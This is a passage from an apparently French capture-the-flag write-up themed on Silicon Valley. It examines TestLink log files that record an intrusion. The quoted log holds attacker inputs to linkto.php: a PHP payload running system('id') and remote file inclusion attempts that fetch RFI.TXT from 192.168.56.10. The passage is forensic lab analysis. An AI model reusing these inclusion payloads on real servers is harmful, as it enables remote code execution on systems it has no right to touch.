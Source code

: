 ```plain
BIGHEAD! You F%*#ing R*#@*d!

STAY IN YOUR OWN DEV SUB!!!...

You have literally broken the code testing app and tools I spent all night building for Richard!

I don't want to see you in my code again!

Dinesh.
```

Concernant le dossier logs je trouve [assez facilement](http://forum.testlink.org/viewtopic.php?t=775) via *DuckDuckGo* le nom des fichiers de logs (*userlogX.log*).  

Le fichier *userlog0.log* contient clairement des traces d'une intrusion qui date du 18 septembre :  

```plain
[>>][5b8bfdb018519054420624][DEFAULT][/testlink/linkto.php][18/Sep/2 15:11:44]
        [18/Sep/2 15:11:44][WARNING][<nosession>][GUI]
                E_NOTICE
Undefined index: PiperCoinID - in C:\xampp\apps\testlink\htdocs\linkto.php - Line 56
        [18/Sep/2 15:11:44][WARNING][<nosession>][GUI]
                E_WARNING
require_once(C:\xampp\php\pear): failed to open stream: Permission denied - in C:\xampp\apps\testlink\htdocs\linkto.php - Line 56
[<<][5b8bfdb018519054420624][DEFAULT][/testlink/linkto.php][18/Sep/2 15:11:44][18/Sep/2 15:11:44][took 0.210302 secs]
[>>][5b8bfdc5ef851940237118][DEFAULT][/testlink/linkto.php][18/Sep/2 15:12:05]
        [18/Sep/2 15:12:06][WARNING][<nosession>][GUI]
                E_NOTICE
Undefined index: PiperCoinID - in C:\xampp\apps\testlink\htdocs\linkto.php - Line 56
        [18/Sep/2 15:12:06][WARNING][<nosession>][GUI]
                E_WARNING
require_once(C:\xampp\php\pear): failed to open stream: Permission denied - in C:\xampp\apps\testlink\htdocs\linkto.php - Line 56
[<<][5b8bfdc5ef851940237118][DEFAULT][/testlink/linkto.php][18/Sep/2 15:12:05][18/Sep/2 15:12:06][took 0.060086 secs]
[>>][5b8bfe0c70e54424473279][DEFAULT][/testlink/linkto.php][18/Sep/2 15:13:16]
        [18/Sep/2 15:13:16][WARNING][<nosession>][GUI]
                E_WARNING
require_once(&lt;?php system(&quot;id&quot;);?&gt;): failed to open stream: No such file or directory - in C:\xampp\apps\testlink\htdocs\linkto.php - Line 56
[<<][5b8bfe0c70e54424473279][DEFAULT][/testlink/linkto.php][18/Sep/2 15:13:16][18/Sep/2 15:13:16][took 0.070101 secs]
[>>][5b8bfeb3bf2a7839433030][DEFAULT][/testlink/linkto.php][18/Sep/2 15:16:03]
        [18/Sep/2 15:16:03][WARNING][<nosession>][GUI]
                E_WARNING
require_once(): http:// wrapper is disabled in the server configuration by allow_url_include=0 - in C:\xampp\apps\testlink\htdocs\linkto.php - Line 56
        [18/Sep/2 15:16:03][WARNING][<nosession>][GUI]
                E_WARNING
require_once(http://192.168.56.10/RFI.TXT): failed to open stream: no suitable wrapper could be found - in C:\xampp\apps\testlink\htdocs\linkto.php - Line 56
[<<][5b8bfeb3bf2a7839433030][DEFAULT][/testlink/linkto.php][18/Sep/2 15:16:03][18/Sep/2 15:16:03][took 0.060087 secs]
[>>][5b8bfee0d8c41144646901][DEFAULT][/testlink/linkto.php][18/Sep/2 15:16:48]
        [18/Sep/2 15:16:48][WARNING][<nosession>][GUI]
                E_WARNING
require_once(): http:// wrapper is disabled in the server configuration by allow_url_include=0 - in C:\xampp\apps\testlink\htdocs\linkto.php - Line 56
        [18/Sep/2 15:16:48][WARNING][<nosession>][GUI]
                E_WARNING
require_once(http://192.168.56.10/RFI.TXT): failed to open stream: no suitable wrapper could be found - in C:\xampp\apps\testlink\htdocs\linkto.php - Line 56
```